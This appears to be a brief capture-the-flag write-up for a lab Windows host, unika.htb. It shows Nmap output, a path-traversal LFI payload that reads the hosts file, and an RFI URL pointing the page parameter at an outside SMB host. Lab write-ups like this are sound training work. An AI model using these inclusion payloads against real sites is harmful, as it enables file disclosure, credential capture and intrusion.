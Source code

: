 # Nmap
```
PORT     STATE    SERVICE   REASON      VERSION
80/tcp   open     http      syn-ack     Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open     http      syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp filtered pando-pub no-response
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 80 redirects to `http://unika.htb/`

# LFI and RFI Vuln
Website is susceptible to LFI and RFI
`http://unika.htb/index.php?page=german.html`
## LFI
`http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`

```
# Copyright (c) 1993-2009 Microsoft Corp.
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows. 
# This file contains the mappings of IP addresses to host names. Each entry should be kept on an individual line. The IP address should be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one space. 
# Additionally, comments (such as these) may be inserted on individual lines or following the machine name denoted by a '#' symbol. 
For example: 
# 102.54.94.97 rhino.acme.com 
# source server 
# 38.25.63.10 x.acme.com 
# x client host 
localhost name resolution is handled within DNS itself.
127.0.0.1 localhost 
::1 localhost
```

## RFI
`http://unika.htb/index.php?page=//10.10.14.6/somefile`